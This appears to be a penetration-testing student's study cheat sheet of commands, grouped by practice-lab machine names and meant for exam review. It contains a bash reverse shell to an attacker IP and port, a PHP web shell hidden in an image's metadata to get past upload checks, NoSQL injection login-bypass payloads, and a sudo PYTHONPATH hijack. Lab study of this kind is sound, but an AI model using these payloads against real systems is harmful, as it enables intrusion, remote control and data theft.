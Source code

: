 (*):review before the exam

### Additional command notes
ㄊㄊ
Used in ```Admirer```

```
sudo PYTHONPATH=/tmp/ <full path of a script file>
```

Used in ```Knife``` for upgrade shell

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1'
```

Used in ```Luanne``` 

authenticate

```
curl -s http://127.0.0.1:3001/<folder>/ -u <user>:<password>
```

find the open ports

```
netstat -punta || ss -nltpu || netstat -anv
```

Used in ```Magic``` 

image file upload bypass

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
```

dump mysql database data without using mysql client tool

```
mysqldump -u root -p database_name > database_name.sql
```

Used in ```Mango```

[nosql-injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/nosql-injection.md): basic authentication bypass

```
# change post data
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true
```

Used in ```Mirai```

```
# check partition
strings /dev/sdb
```

